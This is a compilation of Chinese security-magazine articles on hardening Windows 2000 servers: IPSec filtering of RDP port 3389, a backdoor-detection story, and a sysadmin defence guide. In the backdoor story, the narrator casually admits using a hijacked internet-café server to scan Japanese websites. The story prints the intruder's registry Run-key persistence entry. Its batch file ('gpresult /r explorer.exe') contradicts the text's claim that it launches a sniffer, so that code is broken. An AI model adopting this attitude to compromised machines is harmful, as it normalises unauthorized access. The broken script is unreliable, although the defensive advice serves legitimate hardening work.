

再按“常规”，在“名称”处给它起个名称，如“阻止3389”。确定后回到“新规则”属性的“筛选器操作”处，选中刚建立的“阻止3389”，再按“关闭”→“关闭”回到开始时的“本地安全设置”对话框，选中“3389”后单击右键，选“指派”。这样任何机器就无法通过 3389 端口连接到我们的服务器了。

同样，服务器也把我们关在外面。这不是我们所需要的。现在我们来建一条允许 IP 地址为 111.111.111.111 的机器可以连接到我们服务器的规则。打开“3389”的属性，不选“使用添加向导”，按“添加”，打开“新规则”属性；再按“添加”，出现“IP 筛选器列表”，给它起个名称，就叫“me_3389”吧。不选“使用添加向导”再按“添加”，出现“筛选器”属性，“地址”选项设置成如图 11 所示。

协议处设成跟图 9 一样。按“确定”→“关闭”回到“新规则”属性窗口，选“me_3389”，切换到“筛选器操作”选项。“筛选器操作”里默认有一项我们要的“允许”选项，选中它，然后按“关闭”→“关闭”退出。

至此，我们的目的已完成。也许你会问，在系统中通常是阻止优先于通过，在这里怎么是阻止了又让通过？由于通过的规则比阻止规则定的范围更小、更详细，系统会优先采用，这不同于系统在设置权限时“拒绝优于允许”的规则。所以，我们上面的两条规则是没有矛盾的。

设置完成后，确定回到“本地安全策略”处。要使设置生效，必须选定它并单击右键选“指派”；如果想不用它，再按“不指派”即可；方便吧！

现在，我们来试试上面的设置是否有效，自己试试就知道了。由于服务器只对指定 IP 地址的机器开放 3389 端口，所以非指定 IP 地址的机器是没有办法连上去的。这时，我们在指定允许连接的机器和不允许连接的机器上对目标机器进行扫描发现：允许连接的机器能扫到服务器开放 3389 端口，而不允许连接的机器扫不到 3389 端口。对这些不允许连接的机器来说，目标机器根本没有开 3389 端口。世界更清静了。



图 11



图 12

但能够有固定 IP 上网的用户毕竟还是少数，更多用户都是拨号上网。像我就没有固定 IP，看来用上面指定一个 IP 的办法还不是很可行。那怎么办？

办法是有的。虽然更多用户是拨号上网、没有固定 IP 地址，但如果我们固定在一个地方用专用账号上网，比如汕头宽带网用户，虽然每次上网的 IP 地址都不一样，但每个地区能够分配到的 IP 地址范围是固定的。所以说那些拨号上网用户虽然每次上网的 IP 地址不尽相同，但他们总是固定在几个特定的 C 类地址范围（关于你拨号上网 IP 地址的范围，请咨询当地 ISP）。现在，我们对服务器做相应设置，允许 IP 地址为 61.141.13.* 可以连接到 3389 端口，于是我们原先允许连接的地址就成了如图 12 所示。

其余的不用改。同样，将你拨号上网时有可能获得的 IP 地址段也加进去。

通过上面的修改、设置，虽然有好几个网段的地址可以通过终端连接到我们的服务器，跟单独一个 IP 的连接有着天壤之别，但这和允许任何 IP 地址都可以连接比起来，它的范围小得简直不值一提。

也许很多人在前面读到通过禁用 TCP 协议的端口来禁止终端连接时会问：微软的终端服务不是基于 RDP 协议的吗？怎么禁用 TCP 协议对应终端服务的端口后，其他人就无法连接了呢？具体原因我也不是很清楚，我在网上也找不到这方面有用的资料（如果你有这方面资料，麻烦发给我一份或告知一声，我的 E-mail 是：netff@21cn.com），所以我也不好乱说，以免误导他人。

IPSEC 是一个非常不错的工具，虽然使用起来让人觉得非常复杂，但它的功能着实强大，是加强系统安全的一个很重要、很有用的工具。更重要的是，它是系统自带的。

经过上面的修改、设置，我们的终端服务器应该是很安全了，但它仅仅是系统安全的一小部分，也许小到不值一提。但请各位别忘了：相对的安全是由很多不起眼的小环节累积而成的。

注：网上有很多介绍终端服务安全的文章，但一般都是上文提到的“修改端口号”“隐藏登录用户名”及“启用终端审核”。总体感觉是他们写得不错，但都写得不太全。借这两天替朋友配置服务器用到终端服务之机，写了这篇文章，希望对大家有所帮助。

## 3389下的后门检测

一般来说，黑客入侵了对方电脑系统后，都会留下各种各样的后门程序，其中有些是网上下载的，而更多的是自己精心设计的。下面就从黑客角度浅谈 3389 下的后门检测。

文／江户川一柯南

随着网络技术发展，黑客入侵后所留下的后门技巧也是千千万万。现在我要介绍的是 Windows 2000 注册表的后门技术。

2003 年某时，我登录到我心爱的 3389 肉鸡上去扫描日本网站。由于它是一个网吧服务器，所以安全性不高、在线率又高；所以我愿意用它做跳板扫描。但是登录后问题发生了：当我在 3389 客户端成功进入对方桌面时，屏幕上突然闪了一下 cmd 命令提示框，然后就消失了。因为当时有要事在身，就没太注意。当我打开对方 C 盘时，无意中发现了一个文本文件 SanTuo.txt。

由于好奇，便打开了这个文件。打开后一看，天啊！这里怎么是我刚刚用 3389 登录的用户名和密码？如图 1 所示。

随之我本能想起了登录时瞬间闪过的 cmd 命令提示框。于是我打开“开始”→“程序”→“启动”，但是什么都没有，看来它的程序启动挺隐蔽。于是我首先想到查看进程。由于是 3389 登录，所以不能用 Ctrl+Alt+Del 来打开，于是在任务栏点右键选择“任务管理器”，如图 2 所示。



图 2



图 1



图 3

但是没有发现什么可疑程序，于是我选择显示所有用户进程，结果如图 3 所示。

这么多进程！看来很难找。但是有没有发现进程表里有 2 个 explorer.exe？凭感觉这里一定有一个是后门程序。于是我使用搜索工具搜索，结果如图 4 所示。

哦！果然有一个是后门程序。再看看它的位置，原来在 `c:\winnt\system32\update` 下。

进去后，除了 explorer.exe 还有许多攻击程序。那么，这肯定是入侵者的后门工具目录了。里面还有一个 abc.reg 和几个批处理文件。让我来看看都是什么。

这下大家都知道了吧？入侵者先利用自己建立的注册表文件，内容如图 5 所示，在 `[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]` 里建立用户登录时自动启动 startup.bat 文件的程序。再打开注册表看看，结果如图 6 所示。

果然如此。由于 startup.bat 也在 `c:\winnt\system32\update` 目录下，用编辑方式打开 startup.bat 文件，如图 7 所示。

原来最后目的是自动启动 explorer.exe 运行嗅探器，真正的嗅探器果然是 explorer.exe。

因为自身是警校学生，所以不能眼看着机器被人嗅探。于是先在进程里杀掉假的 explorer.exe 进程，然后在注册表里删除所有 Run 里启动的批处理文件，最后清除 update 下的攻击程序。



图 4



```reg
REGEDIT4
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]
"Run32dll"="c:\\winnt\\system32\\update\\startup.bat"
```

图 5



图 6



```bat
@echo off
gpresult /r explorer.exe
exit
```

图 7

黑客与系统管理员之间的关系一直以来都属于成语“自相矛盾”的另类演绎。很多出色的黑客同时也是系统管理员，而一个系统管理员也很可能会成为一个出色的黑客。本文就是作者对于黑客与管理员之间互动的一次阐述……

## “黑客”与系统管理员的较量

### ——系统管理员防御篇

文 / 齐峰

在《黑防》中的“黑客”入侵篇一文中，我们以一次入侵经历的方式为大家展现了完善的入侵是以何种方式进行的。下面我们就来对这次入侵中涉及到的一些操作系统漏洞和弱点逐一进行分析，看看作为系统管理员应当怎样安全地配置自己的服务器。尽管这部分主要针对系统管理员，但在很大程度上对使用 Windows 2000 和 XP 系统的个人上网用户也是实用的。

### 一、关闭多余的端口

在入侵前的准备工作中，扫描端口是很重要的部分，因此关闭不必要的端口可以减少很多麻烦。在论坛上也经常遇到新手朋友问如何关闭某个端口之类的问题。在这里我们首先需要明确，端口与服务是相互对应的关系：开放一个端口，必然有其相对应的服务。远望 IT 论坛病毒与网络安全版精华区有完善的端口列表文章，无论是系统管理员还是个人用户，了解这些端口都很有必要，建议大家去看看。

在了解了端口所对应的服务后，想关闭某个端口就很容易了，我们只需要在管理工具的服务中停止相应服务即可。当然，我们还可以右键单击“网络邻居”图标，选择“属性”，查看“本地连接属性”，双击“Internet 协议（TCP/IP）”，然后选择“高级”对话框，选择“选项”，最后点击“TCP/IP 筛选”，在这里设置端口过滤，如图 1 所示。至于具体需要关闭哪些端口，就完全看个人需要而定了。

但是，从前面的入侵过程我们可以发现，一些黑客工具完全可以远程打开我们已经禁用的服务，例如 Telnet、终端服务。遇到这种情况怎么办？微软的 2000 资源工具包和 XP 系统本身为管理员提供了 sc.exe 这个小程序，它可以做到彻底删除一个服务，使用起来很简单，具体用法就不在这里多说了。



图 1

这里需要对 139 端口多说几句，因为它在网络入侵中是一个饱受骚扰的端口，但对于不少人来说，开放共享资源又是必须的。由于 445 端口是作为 139 端口的替代端口来使用的，因此只要 445 端口没有关闭，仍然可以共享文件。关闭 139 端口的方法很简单：只要不安装 NetBEUI 协议，就不会开放 139 端口和 NetBIOS，别人扫描也就无法得知我们的操作系统版本、用户列表等一系列信息了。

### 二、打补丁，设密码

从实际入侵开始的第一步我们可以看到，IIS 的漏洞帮了大忙，而实际上更多的入侵是以弱口令作为突破点的。因为入侵者无论采用什么方式，总是会想方设法先获得一个账户和密码。所以，我们需要给操作系统管理员账户设置一个足够强壮并且好记的密码，并打上最新补丁。SP3 是必须的，最新针对 IIS 的补丁也是不可缺少的。如果嫌麻烦，还可以使用 Windows Update 来进行补丁安装。对于系统管理员来说，订阅微软安全公告很有必要，它会告诉你有什么最新漏洞被发现了、有什么解决措施。这可是免费的，只需要在微软网站上申请就可以了。

### 三、关闭 IPC$

IPC$ 也许是出于微软的一厢情愿，但实际上对大部分用户来说并不实用，相反却成了入侵者一个很好的入侵方式。至少从本次入侵来看，IPC$ 起到了很大作用。关闭 IPC$ 需要修改注册表，具体方法黑防以前已经讲得很多了，这里就不再多说。对于个人用户，如果没有特别需要，在管理工具中停止 Server 服务并禁用是最简单的，这样可以彻底关闭共享。

### 四、配置组策略

尽管在这次入侵中没有遇到用户弱口令的“好运”，但从经验看，弱口令并不少见。因此，加强密码策略非常必要。既然微软为我们提供了功能强大的组策略，我们没有理由不用它。运行 gpedit.msc，选择“Windows 设置”中的“安全设置”，首先选择“账户策略”中的“密码策略”，在这里我们可以设置密码复杂性、最长存留周期等，如图 2 所示。这些设置可以保证密码不会被轻易猜出，而且动态密码才是有效的。由于大多数扫描器在默认情况下具有简单破解密码的功能，如果换上足够大的字典文件，便有可能破解管理员账户密码。

